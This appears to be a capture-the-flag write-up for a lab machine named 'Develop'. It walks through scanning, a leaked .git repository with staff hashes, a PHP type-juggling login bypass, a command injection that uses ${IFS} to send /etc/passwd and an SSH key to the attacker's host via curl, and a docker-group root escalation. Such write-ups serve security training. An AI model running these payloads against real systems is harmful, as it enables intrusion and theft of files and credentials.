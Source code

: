 # Develop

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.160.135
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 11:38 +08
Nmap scan report for 192.168.160.135
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

Did a detailed scan on the HTTP ports as well:

```
$ sudo nmap -p 80,8080 -sC -sV --min-rate 3000 192.168.160.135      
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 11:40 +08
Nmap scan report for 192.168.160.135
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Jekyll v4.1.1
|_http-title: Develop Solutions
| http-git: 
|   192.168.160.135:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: added fix to do 
8080/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Admin Panel
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```

So there's a `.git` repository which we can download first.&#x20;

### Web + Git Enumeration

Port 80 hosts a corporate website:

<figure><img src="../../../.gitbook/assets/image (3954).png" alt=""><figcaption></figcaption></figure>

If we click 'Get in touch', we are redirected to `develop.site/getintouch.php`. We can first add that to our `/etc/hosts` file and then enumerate further.&#x20;

The page reveals a simple Contact Form:

<figure><img src="../../../.gitbook/assets/image (3148).png" alt=""><figcaption></figcaption></figure>

Nothing much there. I ran a `gobuster` scan on the website and also downloaded the `.git` repository. While the `gobuster` scan ran, I enumerated the logs of the repository. Here's the interesting output:

```
$ git log -p -5
<TRUNCATED>
diff --git a/README.md b/README.md
index 4e81ff9..ef97745 100644
--- a/README.md
+++ b/README.md
@@ -1,6 +1,8 @@
 DONE:
 - Added staff vhost
 - Removed juicy files from git repo
-
+- Implemented blacklist & whitelist filters to prevent remote code execution reported by the last penetration test performed on our platform
+ 
 TODO:
-- Change weak passowrds
+- Change weak password
+- Remove commands from the whitelist like "cut" which are not needed anymore

...

diff --git a/init.sql b/init.sql
deleted file mode 100644
index e27be17..0000000
--- a/init.sql
+++ /dev/null
@@ -1,16 +0,0 @@
-DROP SCHEMA IF EXISTS app;
-CREATE SCHEMA app;
-USE app;
-
-CREATE TABLE staff(
-    id INT NOT NULL AUTO_INCREMENT,
-    username VARCHAR(20),
-    email VARCHAR(40),
-    password VARCHAR(255),
-    PRIMARY KEY(id)
-);
-
-# Inserting staff
-INSERT INTO staff(username, email, password) VALUES("franz", "franz@develop.info", "2df3f8123cd4cf019e215a37a19d0972");
-INSERT INTO staff(username, email, password) VALUES("alex", "alex@develop.info", "2af05664fdd33119293ce07da4509139");
-INSERT INTO staff(username, email, password) VALUES("lu191", "lu191@develop.info", "0e987654321098765432109876543210");
diff --git a/login.php b/login.php
deleted file mode 100644
index 28dd8b2..0000000
--- a/login.php
+++ /dev/null
@@ -1,101 +0,0 @@
-<?php
-session_start();
-require_once('database.php');
-
-if (isset($_POST['login'])) {
-  $username = $_POST['inputUsername'] ?? '';
-  $password = $_POST['inputPassword'] ?? '';
-  
-  if (empty($username) || empty($password)) {
-      $msg = 'Inserisci username e password %s';
-  } else {
-      $query = "
-          SELECT username, password, email
-          FROM staff
-          WHERE username = :username
-      ";
-      
-      $check = $pdo->prepare($query);
-      $check->bindParam(':username', $username, PDO::PARAM_STR);
-      $check->execute();
-      
-      $user = $check->fetch(PDO::FETCH_ASSOC);
-      
-      if (!$user || (md5($password) != $user['password'])) {
-          $msg = 'Credenziali utente errate %s';
-      } else {
-          session_regenerate_id();
-          $_SESSION['session_id'] = session_id();
-          $_SESSION['username'] = $user['username'];
-          $_SESSION['email'] = $user['email'];
-          
-          header('Location: ./dashboard/dashboard.php');
-          exit;
-      }
-  }
-}
-?>
```

Firstly, we have some mention of a blacklist and whitelist preventing RCE. Next, we have some hashes and users, of which the hashes don't crack.&#x20;

Lastly, we have `login.php` form, which uses the username concatenated with the MD5 of the password. This authentication mechanism is vulnerable to PHP type juggling since `===` is not used, hence magic hashes can be used to bypass the login.&#x20;

### Magic Hashes -> LFI SSH

The `.git` repository seems to be for the service running on port 8080:

<figure><img src="../../../.gitbook/assets/image (3937).png" alt=""><figcaption></figcaption></figure>

We can login with `lu191:240610708`, abusing the type juggling here and view the dashboard:

<figure><img src="../../../.gitbook/assets/image (1190).png" alt=""><figcaption></figcaption></figure>

The Resources tab of the dashboard shows potential for RCE:

<figure><img src="../../../.gitbook/assets/image (312).png" alt=""><figcaption></figcaption></figure>

So we know that this is probably still vulnerable to RCE, and it tells us when we are blocked.&#x20;

<figure><img src="../../../.gitbook/assets/image (308).png" alt=""><figcaption></figcaption></figure>

I tested different commands, and found that `curl` isn't blocked:

<figure><img src="../../../.gitbook/assets/image (1175).png" alt=""><figcaption></figcaption></figure>

Commands like `bash` and `sh` are blocked, and so are 'space' characters, so it will be difficult to get a reverse shell through `curl`. However, we can use this to read the files on the system by sending POST requests to our listening port 80.&#x20;

To overcome the space character block, we can use `${IFS}`. Using this, we can send POST requests with file contents using the `-F` flag:

{% code overflow="wrap" %}
```
127.0.0.1;curl${IFS}-X${IFS}POST${IFS}-F${IFS}"file=@/etc/passwd"${IFS}http://192.168.45.191
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (294).png" alt=""><figcaption></figcaption></figure>

Using this method, I found that the user was `franz`. We can then attempt to read their private SSH key:

<figure><img src="../../../.gitbook/assets/image (3964).png" alt=""><figcaption></figcaption></figure>

We can then `ssh` in:

<figure><img src="../../../.gitbook/assets/image (1180).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Docker Group

As seen above, the user is part of the `docker` group, meaning that we can easily escalate privileges. Firstly, find the images present:

```
$ docker images                                                                                        
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE                                               
mysql        8.0.22    d4c3cafb11d5   2 years ago   545MB
```

&#x20;Just run this command from Hacktricks:

{% code overflow="wrap" %}
```
docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host d4c3cafb11d5 chroot /host/ bash
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (3941).png" alt=""><figcaption></figcaption></figure>
